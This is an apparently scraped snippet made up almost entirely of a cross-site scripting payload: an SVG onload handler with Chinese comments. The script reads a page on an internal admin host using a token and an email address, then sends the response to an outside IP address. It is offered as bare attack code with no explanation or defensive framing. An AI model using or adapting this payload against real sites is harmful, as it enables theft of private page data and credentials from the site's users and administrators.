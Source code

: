 <svg/onload="var pages = ['http://192.168.21.109:6080/main.php?token=ea811fcf06bb1c1f278afce0b577cd24&email=test%40admin.com#main'];
var data = {};
var count = 0;

// 请求每个页面的数据
for (var i = 0; i < pages.length; i++) {
  var xhr = new XMLHttpRequest();
  xhr.open('GET', pages[i], true);
  xhr.onreadystatechange = function() {
    if (xhr.readyState === 4 && xhr.status === 200) {
      // 将页面数据存储到 data 对象中
      data[pages[i]] = xhr.responseText;
      count++;
      if (count === pages.length) {
        // 所有页面数据请求完毕，发送数据到外部 URL
        sendData(data);
      }
    }
  };
  xhr.send();
}

// 发送数据到外部 URL
function sendData(data) {
  var xhr = new XMLHttpRequest();
  xhr.withCredentials = true;
  xhr.open('GET', 'http://124.222.21.138:9999', true);
  xhr.setRequestHeader('Content-Type', 'application/json');

  xhr.onreadystatechange = function() {
    if (xhr.readyState === 4 && xhr.status === 200) {
      var response = xhr.responseText;
      console.log(response);
    }
  };
  xhr.send(JSON.stringify(data));
}
">
